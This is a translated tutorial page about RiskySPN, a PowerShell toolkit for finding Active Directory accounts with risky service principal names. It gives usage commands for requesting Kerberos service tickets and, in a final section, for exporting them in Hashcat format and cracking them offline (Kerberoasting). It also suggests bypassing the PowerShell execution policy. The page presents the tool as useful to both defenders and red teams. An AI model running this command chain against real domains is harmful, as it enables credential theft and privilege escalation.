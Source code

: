 # RiskySPN–PowerShell 脚本的集合，主要用于检测和滥用 SPNs 帐户

> 原文：<https://kalilinuxtutorials.com/riskyspn-detect-abuse-risky-spns/>

**RiskySPN** 是一组 PowerShell 脚本，主要用于检测和滥用与 SPN(服务主体名称)相关的帐户。该模块可以帮助蓝队识别潜在的风险 SPN，并帮助红队利用 Kerberos 和 Active Directory 提升权限。

**也可阅读 [Metasploit 框架——渗透测试、漏洞利用开发和漏洞研究初学者指南](https://kalilinuxtutorials.com/metasploit-framework/)**

## **RiskySPN 用法**

### **安装模块**

```
Import-Module .\RiskySPNs.psm1
```

##### **或者直接加载脚本(你也可以`IEX`从网上)**

```
. .\Find-PotentiallyCrackableAccounts.ps1
```

确保`Set-ExecutionPolicy`是`Unrestricted`或`Bypass`

### **获取关于功能的信息**

```
Get-Help Get-TGSCipher -Full
```

所有功能也有`-Verbose`模式

### **搜索易受攻击的 SPN**

##### **查找易受攻击的账户**

```
Find-PotentiallyCrackableAccounts
```

敏感+ RC4 = $$$

##### **生成关于易受攻击账户的完整详细报告(CISO < 3)**

```
Export-PotentiallyCrackableAccounts
```

### **获取门票**

##### **为 SPN 请求 Kerberos TGS**

```
Get-TGSCipher -SPN "MSSQLSvc/prodDB.company.com:1433"
```

##### **或**

```
Find-PotentiallyCrackableAccounts -Stealth -GetSPNs | Get-TGSCipher
```

### 有趣的东西🙂

```
Find-PotentiallyCrackableAccounts -Sensitive -Stealth -GetSPNs | Get-TGSCipher -Format "Hashcat" | Out-File crack.txt
oclHashcat64.exe -m 13100 crack.txt -a 3
```

[![](img/d861a9096555aeb1980fc054015933d7.png)](https://github.com/cyberark/RiskySPN)